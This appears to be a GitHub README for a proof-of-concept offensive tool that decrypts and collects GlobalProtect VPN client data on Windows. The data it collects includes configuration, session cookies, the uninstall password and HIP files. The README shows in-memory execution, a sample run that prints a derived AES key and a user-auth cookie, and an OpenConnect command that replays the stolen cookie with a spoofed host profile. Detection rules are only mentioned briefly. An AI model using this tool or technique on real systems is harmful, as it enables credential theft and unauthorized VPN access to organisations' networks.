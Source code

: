 # GlobalUnProtect

PoC tool for decrypting and collecting GlobalProtect configuration, cookies, and HIP files from windows client installations. 

## Usage

Run as standalone or in-memory via execute-assembly or equivalent. Collects all contents to an in-memory zip and writes to specified location.

```
> GlobalUnProtect.exe
Usage: GlobalUnProtect.exe C:\Path\To\Output.zip
```

```
> GlobalUnProtect.exe %TEMP%\GPUnprotect.zip
[*] Deriving AES key from computer SID
        [*] Computer SID (Hex) : 010400000000000515000000EFC8897F22AF1E09042DC851
        [*] Derived AES Key: C41006BCDBEF6683B2E7387EA9487A77C41006BCDBEF6683B2E7387EA9487A77
[*] Starting search for GlobalProtect data files
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPCD_2ab96390c7dbe3439de74d0c9b0b1767.dat
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPortalCfg_2ab96390c7dbe3439de74d0c9b0b17676.dat
        [*] Found: C:\Users\User\AppData\Local\Palo Alto Networks\GlobalProtect\PanPUAC_2ab96390c7dbe3439de74d0c9b0b1767.dat
[*] PanPortalCfg_2ab96390c7dbe3439de74d0c9b0b1767.dat looks like a portal config file, parsing for convenience:
        [*] User Name: example\user
        [*] Portal: vpn.example.com
        [*] User Domain: example
        [*] Portal Name: 
        [*] Tenant Id: 100001
        [*] Uninstall password: uninstall-password
        [*] Portal Pre-logon Cookie: empty
        [*] Portal User-auth Cookie: NzFkZjM0NGJlNjQ0NGEyMzQyMDQ4MmY3ZWE1ZWY1Y2ZhN2FiNTEyNDg0OTJhNWI0NTlhNjkzZjNmMDE2MTYzNzAyMjAzNWE2MGY0Y2I0YmVlMWIyNzExNGYzMTQwYTA5YTY3MTFjNDQ2MmQ3MjQ4NTE5MDEzYzU1OWQ4MzgwYjU=
[*] Collecting HIP profile data files
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_AM_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_BC_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_DE_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_DLP_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_FW_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HIP_PM_Report_V4.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\HipPolicy.dat
        [*] Found: C:\Program Files\Palo Alto Networks\GlobalProtect\PanGpHip.log
[*] Writing output ZIP file to C:\Users\User\AppData\Local\Temp\GPUnprotect.zip
```

Connect via OpenConnect: 

```
$ sudo openconnect - protocol=gp - user="example\\username" - usergroup=portal:portal-userauthcookie - os=win https://vpn.example.com - csd-wrapper ~/tools/custom-hips-profile.sh
```


## Countermeasures

Yara and Sigma rules provided this repo are specific to the tool and behaviors observed when replaying cookies using OpenConnect.